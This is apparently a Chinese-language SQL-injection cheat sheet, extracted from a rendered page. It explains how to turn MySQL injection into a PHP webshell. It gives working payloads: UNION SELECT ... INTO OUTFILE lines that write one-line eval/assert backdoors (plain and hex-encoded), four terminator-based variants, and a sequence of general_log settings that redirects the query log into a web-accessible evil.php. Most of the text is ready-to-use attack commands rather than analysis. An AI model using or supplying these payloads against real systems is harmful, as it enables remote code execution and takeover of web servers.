         - 没有配置secure-file-priv。可以通过select @@secure_file_priv;查询

            - ```
                如果为NULL,则不能写入
                （2）：如果为空，可以在任意文件位置下写入
                （3）：如果为一个路径，可以在该文件路径写入
                ```
        
        - **root权限**
        
        - ```sql
            union select 1,2,'<?php     @eval($_POST[aaa]);?>' into     outfile 'e:/4.php' 
            #可以将一句话木马转换成16进制的形式：
            union select 1,2,0x3c3f70687020406576616c28245f504f53545b6161615d293b3f3e  into outfile
            
            #利用分隔符写入
            ?id=1 into outfile 'D:/WWW/evil.php' fields terminated by '<?php assert($_POST["cmd"]);?>'
            
            ?id=1 into outfile 'D:/WWW/evil.php' lines terminated by '<?php phpinfo() ?>'--+
            
            ?id=1 LIMIT 0,1 INTO OUTFILE 'D:/WWW/evil.php' lines terminated by 0x20273c3f70687020406576616c28245f504f53545b2767275d293b3f3e27 --+
            
            #同样的技巧，一共有四种形式
            ?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#
            
            ?id=1 INTO OUTFILE '物理路径' fields terminated by （一句话hex编码）#
            
            ?id=1 INTO OUTFILE '物理路径' columns terminated by （一句话hex编码）#
            
            ?id=1 INTO OUTFILE '物理路径' lines starting by    （一句话hex编码）#
            
            ```
        
    - **新版本的MySQL设置了导出文件的路径，很难在获取Webshell过程中去修改配置文件，无法通过使用select into outfile来写入一句话。这时，我们可以通过修改MySQL的log文件来获取Webshell。**

    - **需要满足的条件**

        - 对web目录有写权限

        - GPC关闭(GPC:是否对单引号转义)

        - 有绝对路径(读文件可以不用，写文件需要)

        - 需要能执行多行SQL语句

        - ```sql
            show variables like '%general%';            	 # 查看配置
            
            set global general_log = on;              		 # 开启general log模式,将所有到达MySQL Server的SQL语句记录下来。
            
            set global general_log_file = 'D:/WWW/evil.php'; # 设置日志目录为shell地址
            
            select '<?php eval($_GET[g]);?>'             	 # 写入shell
            
            set global general_log=off;                  	 # 关闭general log模式
            
            ```

    - 在高版本的mysql中默认为NULL，就是不让导入和导出
